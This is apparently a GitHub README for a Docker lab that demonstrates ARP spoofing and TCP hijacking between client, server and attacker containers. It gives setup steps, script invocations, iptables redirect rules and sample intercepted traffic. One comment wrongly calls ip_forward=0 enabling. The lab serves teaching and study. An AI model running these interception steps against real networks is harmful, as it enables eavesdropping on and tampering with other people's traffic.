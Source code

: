 # ARP spoofing & TCP hijaking

## Network structure

```
            MIDDLE------------\
        subnet2: 198.7.0.3     \
        MAC: 02:42:c6:0a:00:02  \
               forwarding        \ 
              /                   \
             /                     \
Poison ARP 198.7.0.1 is-at         Poison ARP 198.7.0.2 is-at 
           02:42:c6:0a:00:02         |         02:42:c6:0a:00:02
           /                         |
          /                          |
         /                           |
        /                            |
    SERVER <---------------------> ROUTER <---------------------> CLIENT
net2: 198.7.0.2                      |                           net1: 172.7.0.2
MAC: 02:42:c6:0a:00:03               |                            MAC eth0: 02:42:ac:0a:00:02
                           subnet1:  172.7.0.1
                           MAC eth0: 02:42:ac:0a:00:01
                           subnet2:  198.7.0.1
                           MAC eth1: 02:42:c6:0a:00:01
                           subnet1 <------> subnet2
                                 forwarding

```

## Installation

### Requirements

- [docker](https://docs.docker.com/engine/install/)
- [docker-compose](https://docs.docker.com/compose/install/standalone/)


Getting the repository:
```bash
git clone https://github.com/VladSteopoaie/ARPspoofing-TCPhijaking.git
cd ARPspoofing-TCPhijaking
```

Building the containers (docker might require admin permissions):
```bash
docker-compose up
```

Now you can connect to each container with the following command:
```bash
docker exec -it <container-id> /bin/bash
# to get the container id you can use `docker ps`
```

## Usage

### Scenario I (client-server communication)

Connect to the `client` container and follow the commands:

```bash
cd scripts
python3 tcp_client.py
```

You should see the `client` hanging with the following message:

```
[~] Connecting to ('198.7.0.2', 10000)...
```

Connect to the `server` container and follow the commands:

```bash
cd scripts
python3 tcp_server.py
```

You should see the `server`'s message:

```
[~] Server listening on 198.7.0.2:10000
[~] Waiting for connections...
```

After a short while the `server` and `client` should communicate and you should see something like this:

```
####### SERVER #######
[~] Handshake with ('198.7.0.1', 51902)
[~] Message received: "b'gAFMG`'"
[~] Message sent: "b'gAFMG`-server'"
[~] Message received: "b'`{qEUHmR'"
[~] Message sent: "b'`{qEUHmR-server'"
[~] Message received: "b'RWfBnD'"
[~] Message sent: "b'RWfBnD-server'"
~~~SNIP~~~

####### CLIENT #######
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "gAFMG`"
[~] Message received: "b'gAFMG`-server'"
[~] Message sent: "`{qEUHmR"
[~] Message received: "b'`{qEUHmR-server'"
[~] Message sent: "RWfBnD"
[~] Message received: "b'RWfBnD-server'"
~~~SNIP~~~
```

Note: The `client` is generating random strings as messages and the `server` is appending '-server' to the data and sends it back.

### Scenario II (ARP spoofing)

Now that we have the `client` and `server` communicating let's add the `middle`.
Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=0 # enables packet forwarding
python3 arp.py 198.7.0.1 198.7.0.2 # Usage: python3 arp.py router_ip victim_ip
```

You should see the following:

```
[*] Default Gateway MAC: 02:42:c6:07:00:01
[*] Victim MAC: 02:42:c6:07:00:02
[~] Started ARP poisoning!
[~] Starting network caputre.
```

Start the `client` and `server` as before and wait until some packets are sent.<br>
Stop all the scripts with CTRL^C repeatedly.<br>
On the `middle` container you should have a file that looks like this `198.7.0.2_caputre.pcap`, check if it has some contents. If the file is not empty then the attack was successful and the middle intercepted the packets. You can use `tcpdump -r <file_name>.pcap` to analyze the packets from the terminal or extract the file on your machine with `docker cp` and analyze it in Wireshark.<br> <br>

Here is the file analyzed with Wireshark:
![Wireshark image](images/wireshark.png)

### Scenario III (TCP hijacking)

The process here is similar to the one in Scenario II. Connect to the `middle` container and follow the commands:

```bash
cd scripts
sysctl -w net.ipv4.ip_forward=1
iptables -t nat -A POSTROUTING -j MASQUERADE
iptables -t nat -A PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
python3 hijack.py 198.7.0.1 198.7.0.2 # Usage: python3 hijack.py router_ip victim_ip
```
You should see the same text as for ARP spoofing script.

Now start the `server` and `client` and wait until some packets are sent.
You should see an output similar to this for each container:

```
####### MIDDLE #######
[~] Handshake with ('198.7.0.1', 47994)
[~] Initiating connection with the server...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message received: "b'_SPsNPDU'"
[~] Sending "_SPsNPDU-middle" to server...
[~] Received message: "b'_SPsNPDU-middle-server'"
[~] Sending "_SPsNPDU-middle-server-middle" to the client...
[~] Message received: "b'is`Nt'"
[~] Sending "is`Nt-middle" to server...
[~] Received message: "b'is`Nt-middle-server'"
[~] Sending "is`Nt-middle-server-middle" to the client...
[~] Message received: "b'[vVMY`'"
[~] Sending "[vVMY`-middle" to server...
[~] Received message: "b'[vVMY`-middle-server'"
[~] Sending "[vVMY`-middle-server-middle" to the client...
[~] Message received: "b''"
[!] Connection closed! (fake server)
[!] Connection closed! (fake client)
~~~SNIP~~~

####### SERVER #######
[~] Waiting for connections...
[~] Handshake with ('198.7.0.3', 57532)
[~] Message received: "b'_SPsNPDU-middle'"
[~] Message sent: "b'_SPsNPDU-middle-server'"
[~] Message received: "b'is`Nt-middle'"
[~] Message sent: "b'is`Nt-middle-server'"
[~] Message received: "b'[vVMY`-middle'"
[~] Message sent: "b'[vVMY`-middle-server'"
[X] Connection closed
~~~SNIP~~~

####### CLIENT #######
[~] Connecting to ('198.7.0.2', 10000)...
[~] Handshake with ('198.7.0.2', 10000)
[~] Message sent: "_SPsNPDU"
[~] Message received: "b'_SPsNPDU-middle-server-middle'"
[~] Message sent: "is`Nt"
[~] Message received: "b'is`Nt-middle-server-middle'"
[~] Message sent: "[vVMY`"
[~] Message received: "b'[vVMY`-middle-server-middle'"
~~~SNIP~~~
```

So the `middle` intercepted the packets between the `server` and `client`. It hijaked the connection and appended a message ('-middle') for each packet it captured. 

Note: if the communication is not working and the `client` is hanging, try restarting the hijack.py script.

After closing the scripts don't forget to restore the containers with this commands:

```bash
####### CLIENT & SERVER #######
ip -s -s neigh flush all

####### MIDDLE #######
iptables -t nat -D POSTROUTING -j MASQUERADE
iptables -t nat -D PREROUTING -s 198.7.0.1 -p tcp --dport 10000 -j DNAT --to-destination 198.7.0.3
```